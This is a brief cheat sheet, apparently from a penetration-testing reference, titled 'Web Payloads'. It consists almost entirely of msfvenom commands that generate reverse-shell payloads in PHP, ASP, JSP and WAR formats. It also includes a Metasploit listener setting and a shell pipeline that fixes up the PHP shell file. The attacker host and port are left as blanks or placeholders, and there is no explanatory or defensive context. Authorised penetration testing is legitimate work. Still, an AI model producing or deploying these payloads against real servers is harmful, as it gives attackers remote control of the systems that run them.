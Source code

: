 # **Web Payload**

_**

## Web Payloads

**_

##   
  
msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php  
PHP  
  
set payload php/meterpreter/reverse_tcp  
Listener  
  
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php  
PHP  
  
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp  
ASP  
  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x  
JSP  
  
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war  
WAR